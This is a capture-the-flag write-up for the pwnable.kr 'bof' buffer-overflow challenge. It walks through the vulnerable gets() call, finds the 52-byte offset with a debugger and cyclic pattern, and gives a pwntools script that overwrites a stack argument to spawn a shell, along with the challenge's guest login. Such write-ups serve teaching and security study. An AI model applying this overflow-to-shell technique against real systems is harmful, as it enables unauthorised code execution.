

# bof write up  (Buffer OverFlow challange)
this is challenge from pwnable.kr named bof 

## Challenge Information
- Platform: pwnable.kr
- Challenge: bof
- Category: Binary Exploitation
- Description: Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?
- Connect: ssh bof@pwnable.kr -p2222 (pw: guest)


## Challenge Enumeration :v
### connect to ssh
```bash
ssh bof@pwnable.kr -p2222
guest
```

### cat readme
"bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag"


### cat bof.c

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
this is a program that allow you to write to buffer overflowme and next to the buffer. The function `func()` is called in `main` with `0xdeadbeef` as its first argument (`key`). Later, the program checks whether `key` is equal to `0xcafebabe`., if equal the program give /bin/sh access, if not "Nah.."

### file bof
```bash
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1cabd158f67491e9edb3df0219ac3a4ef165dc76, for GNU/Linux 3.2.0, not stripped
```
bof is 32-bit LSB (Little Endian)


### checksec bof
```bash
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/home/bof/bof'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

## Buffer Overflow
A buffer overflow is a critical security vulnerability occurring when a program writes more data to a buffer (temporary memory storage) than it can hold, causing the excess data to overwrite the memory.

in this case overflowme variable only buffer for 32 bytes
```c
char overflowme[32];
```

there is a function that do not check input lengths like 
```c
gets()
scanf()
strcpy()
```
and that function is in bof.c
```c
gets(overflowme);
```

so we can modify our input to manipulate the program, in this case we can change argument value in func() that stored on the stack by overflow the program and change the register value with 0xcafebabe

to do that first we need to find offset from buffer to the register that saving first argument value

### finding offset


```bash
gdb bof
```
disassemble func for analysis

```bash
pwndbg> disass func
Dump of assembler code for function func:
   0x000011fd <+0>:	push   ebp
   0x000011fe <+1>:	mov    ebp,esp
   0x00001200 <+3>:	push   esi
   0x00001201 <+4>:	push   ebx
   0x00001202 <+5>:	sub    esp,0x30
   0x00001205 <+8>:	call   0x1100 <__x86.get_pc_thunk.bx>
   0x0000120a <+13>:	add    ebx,0x2df6
   0x00001210 <+19>:	mov    eax,gs:0x14
   0x00001216 <+25>:	mov    DWORD PTR [ebp-0xc],eax
   0x00001219 <+28>:	xor    eax,eax
   0x0000121b <+30>:	sub    esp,0xc
   0x0000121e <+33>:	lea    eax,[ebx-0x1ff8]
   0x00001224 <+39>:	push   eax
   0x00001225 <+40>:	call   0x1050 <printf@plt>
   0x0000122a <+45>:	add    esp,0x10
   0x0000122d <+48>:	sub    esp,0xc
   0x00001230 <+51>:	lea    eax,[ebp-0x2c]
   0x00001233 <+54>:	push   eax
   0x00001234 <+55>:	call   0x1060 <gets@plt>
   0x00001239 <+60>:	add    esp,0x10
   0x0000123c <+63>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x00001243 <+70>:	jne    0x1272 <func+117>
   0x00001245 <+72>:	call   0x1080 <getegid@plt>
   0x0000124a <+77>:	mov    esi,eax
   0x0000124c <+79>:	call   0x1080 <getegid@plt>
   0x00001251 <+84>:	sub    esp,0x8
   0x00001254 <+87>:	push   esi
   0x00001255 <+88>:	push   eax
   0x00001256 <+89>:	call   0x10b0 <setregid@plt>
   0x0000125b <+94>:	add    esp,0x10
   0x0000125e <+97>:	sub    esp,0xc
   0x00001261 <+100>:	lea    eax,[ebx-0x1fe9]
   0x00001267 <+106>:	push   eax
   0x00001268 <+107>:	call   0x10a0 <system@plt>
   0x0000126d <+112>:	add    esp,0x10
   0x00001270 <+115>:	jmp    0x1284 <func+135>
   0x00001272 <+117>:	sub    esp,0xc
   0x00001275 <+120>:	lea    eax,[ebx-0x1fe1]
   0x0000127b <+126>:	push   eax
   0x0000127c <+127>:	call   0x1090 <puts@plt>
   0x00001281 <+132>:	add    esp,0x10
   0x00001284 <+135>:	nop
   0x00001285 <+136>:	mov    eax,DWORD PTR [ebp-0xc]
   0x00001288 <+139>:	sub    eax,DWORD PTR gs:0x14
   0x0000128f <+146>:	je     0x1296 <func+153>
   0x00001291 <+148>:	call   0x12e0 <__stack_chk_fail_local>
   0x00001296 <+153>:	lea    esp,[ebp-0x8]
   0x00001299 <+156>:	pop    ebx
   0x0000129a <+157>:	pop    esi
   0x0000129b <+158>:	pop    ebp
   0x0000129c <+159>:	ret    
End of assembler dump.
pwndbg> 
```


```bash
   0x00001239 <+60>:	add    esp,0x10
   0x0000123c <+63>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
in here we know that first argument of func is saved in ebp+0x8 because it use for cmp(compare) with 0xcafebabe

next we want to set breakpoint to func+60 for determining the offset

```bash
pwndbg> b *func+60
Breakpoint 1 at 0x1239
```

and use cyclic 100 for our payload then run bof program and put our payload there
```bash
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r
Starting program: /home/bof/bof 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
overflow me : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

```




now use x/x $ebp+0x8 to examine hex value of ebp+0x8, notice that now ebp+0x8 not 0xdeadbeef anymore but 0x6161616e

```bash
pwndbg> x/x $ebp+0x8
0xffffd530:	0x6161616e
```

use cyclic again for finding offset using value of ebp+0x8

```bash
pwndbg> cyclic -l 0x6161616e
Finding cyclic pattern of 4 bytes: b'naaa' (hex: 0x6e616161)
Found at offset 52
```

here we go the offset from buffer(overflowme) to key is 52

## exploit

remember readme file??
"bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag"
now quit from gdb cuz we want to start exploit to "nc 0 9000" with python

```bash
pwndbg> quit
```
use this python script

```python
from pwn import *

conn = remote("0", 9000)

payload = b"A"*52 + p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

this python script is for making connection to "0" port 9000 and send 52 arbitrary payload to fill the buffer until register ebp+0x8 then send 0xcafebabe using `p32()` that converts the value into a 32-bit little-endian representation, so `0xcafebabe` becomes `\xbe\xba\xfe\xca`.


and thats it after send your script you can gain /bin/sh access and cat the flag!!!

Hope this useful, Happy Hacking!!!
